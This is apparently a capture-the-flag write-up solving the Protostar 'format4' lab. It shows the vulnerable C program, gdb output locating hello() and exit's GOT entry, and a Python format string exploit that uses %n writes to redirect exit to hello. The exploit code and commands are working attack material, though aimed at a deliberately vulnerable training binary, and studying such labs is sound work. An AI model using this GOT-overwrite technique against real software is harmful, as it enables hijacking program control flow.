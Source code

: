Our goal is to solve this explotation challenge <i> [format4](https://exploit.education/protostar/format-four/)</i>


# Code to exploit 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}

```
## Problem of code

This is a Format string exploit challenge .
The code passes a string to printf with wrong format.

If the user passes as argv[1] a string like "%x %x %x %x %x" he can read 5 words from the stack 


```
	#https://owasp.org/www-community/attacks/Format_string_attack

	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);

```

Our goal will be to change the entry of exit function  in global offset table by using %n arguement in vuln-printf.
We want to redirect exit to the function Hello.



We will use gdb to find relevant addresses.

Address of Hello fucntion:

```
(gdb) disassemble hello
Dump of assembler code for function hello:
0x080484b4 <hello+0>:   push   %ebp
0x080484b5 <hello+1>:   mov    %esp,%ebp

```
Address of exit:

```
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   %ebp
0x080484d3 <vuln+1>:    mov    %esp,%ebp
0x080484d5 <vuln+3>:    sub    $0x218,%esp
0x080484db <vuln+9>:    mov    0x8049730,%eax
0x080484e0 <vuln+14>:   mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:   movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:   mov    %eax,(%esp)
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:   mov    %eax,(%esp)
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   movl   $0x1,(%esp)
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>

disassemble 0x80483ec
Dump of assembler code for function exit@plt:
0x080483ec <exit@plt+0>:        jmp    *0x8049724
0x080483f2 <exit@plt+6>:        push   $0x30
0x080483f7 <exit@plt+11>:       jmp    0x804837c
End of assembler dump.

(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080483f2


```
We want to change the address located in 0x8049724, with the address of hello

```
(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080484b4

```


And then with this python code we will do the final explotation

```
import struct

HELLO_ADDR = struct.pack("I",0x080484b4)

OFFSET = "TTTT"

EXIT_GOT = struct.pack("I", 0x8049724)
EXIT_GOT_3 = struct.pack("I", 0x8049724+2)

#we make printf print 33950 characters so the next %n will give the wanted value to EXIT_GOT

exploit = EXIT_GOT+  EXIT_GOT_3 +"%x %x %33950x %n %33614x %5$n"

print exploit




```


Finally we run like this 

```
python format4.py | /opt/protostar/bin/format4


```
